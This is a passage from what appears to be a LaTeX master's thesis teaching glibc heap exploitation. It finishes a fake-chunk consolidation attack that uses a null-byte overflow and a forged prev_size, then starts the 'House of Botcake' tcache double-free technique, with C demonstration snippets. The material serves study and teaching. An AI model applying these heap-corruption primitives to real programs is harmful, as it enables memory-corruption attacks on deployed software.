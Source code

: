 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\mallocc{\lstinline{malloc}}
\begin{document}
Now we need another chunk inside the heap:

\begin{lstlisting}[language=c,frame=tlrb]
b = (uint8_t*) malloc(0xf8);
int real_b_size = malloc_usable_size(b);
uint64_t* b_size_ptr = (uint64_t*)(b - 8);
\end{lstlisting}

Now we use \lstinline{a} in order to overflow and manipulate the size of \lstinline{b}.

\begin{lstlisting}[language=c,frame=tlrb]
a[real_a_size] = 0;
\end{lstlisting}

 Now it is time to set \lstinline{prev_size} of our fake chunk to an in order to merge it with our fake chunk.

\begin{lstlisting}[language=c,frame=tlrb]
size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
*(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
fake_chunk[1] = fake_size;
\end{lstlisting}

The final step is free \lstinline{b} after free \lstinline{b} it is merged without fake chunk, so next \mallocc{} returns our fake chunk.

\begin{lstlisting}[language=c,frame=tlrb]
free(b);
d = malloc(0x200);
\end{lstlisting}


\subsection{ The House of Botcake}
The goal is to bypass \libc{} security checks in newer versions to perform a \tch{} double-free attack.
Consider the following code, like always, first; we assume our target is at the stack.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t stack_var[4];
\end{lstlisting}
Now, We allocate seven chunks to fill up the \tch{} in the future. As we remember, we did this trick before too.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *x[7];
for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
	x[i] = malloc(0x100);
}
\end{lstlisting}

The next step is to define a chunk to merge \lstinline{prev} and define the victim \lstinline{a}; also, we define a small chunk to prevent merge chunks with the top chunk after free.
\end{document}
